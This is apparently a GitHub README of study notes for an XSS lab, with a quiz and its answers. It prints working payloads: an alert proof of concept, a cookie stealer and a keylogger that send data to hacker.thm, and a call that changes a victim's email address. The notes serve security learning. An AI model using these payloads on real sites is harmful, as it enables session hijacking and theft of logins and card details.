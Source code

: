 # XSS Payloads

## What is a Payload?

- In XSS, the payload is the ***JavaScript code*** we wish to be executed on the targets computer. There are two parts to the payload, **<ins>the Intention and the Modification</ins>**.


- `The intention` is what you wish the JavaScript to actually do (some examples below), and `the modification` is the changes to the code we need to make it execute as every scenario is different.


## Here are some examples of XSS intentions 
- See all below mentioned scripts [here](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/tree/main/03%20-%20XSS%20Payloads/Payload%20List)

### [1. Proof of Concept (PoC)](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/03%20-%20XSS%20Payloads/Payload%20List/1.%20POC.js)

- This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an ***alert box*** to pop up on the page with a string of text, for example:

  ```js
  <script>alert('XSS');</script>
  ```
  
### [2. Session Stealing](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/03%20-%20XSS%20Payloads/Payload%20List/2.%20SessionStealing.js)

- Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, **base64** encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.


  ```js
  <script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
  ```
  
### [3. Key Logger](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/03%20-%20XSS%20Payloads/Payload%20List/3.%20KeyLogger.js)
  
- The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted **user logins or credit card details**.
  
  ```js
  <script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
  ```
  
### [4. Business Logic](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/03%20-%20XSS%20Payloads/Payload%20List/4.%20BusinessLogic.js)

- This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:

  ```js
  <script>user.changeEmail('attacker@hacker.thm');</script>
  ```
  
- Now that the email address for the account has changed, the attacker may perform a reset password attack.

# Answer the questions below

1. Which document property could contain the user's session token?
```
document.cookie
```

2. Which JavaScript method is often used as a Proof Of Concept?
```
alert
```

